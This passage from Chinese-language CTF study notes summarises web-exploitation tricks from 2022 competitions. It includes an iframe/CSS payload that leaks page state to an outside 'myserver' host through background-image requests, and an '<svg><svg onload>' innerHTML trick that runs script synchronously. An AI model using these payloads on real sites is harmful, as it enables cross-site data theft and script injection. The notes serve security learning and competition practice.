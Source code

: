 ``` html
<iframe srcdoc="
  <iframe name=defaultView src=/home></iframe><br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

我之前寫過的英文 writeup：https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/

### HITCON CTF 2022 - Self Destruct Message

原本在用 `element.innerHTML = str` 的時候都是非同步的，但利用神奇的 `<svg><svg>` 即可做到同步：

``` html
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

會先輸出 1 再來 2，而且不用插到 DOM 就會生效。

相關討論可以看：https://twitter.com/terjanq/status/1421093136022048775

writeup：https://blog.huli.tw/2022/12/08/ctf-js-notes/#hitcon-ctf-2022

### SekaiCTF 2022 - Obligatory Calc

兩個重點：

1. onmessage 裡面的 `e.source` 是發送訊息的來源 window，雖然乍看之下一定是物件，但如果 postMessage 之後立刻關閉，就會變成 null
2. 在 sandbox iframe 底下，存取 `document.cookie` 會發生錯誤

## 瀏覽器內部運作相關

### GoogleCTF 2022 - POSTVIEWER

這題跟瀏覽器在執行東西時的順序有關，也跟 site isolation 之類的有關，透過這些東西就可以構造出一個 iframe 相關的 race condition。

完整 writeup：https://blog.huli.tw/2022/07/09/google-ctf-2022-writeup/#postviewer-10-solves

### UIUCTF 2022 - modernism
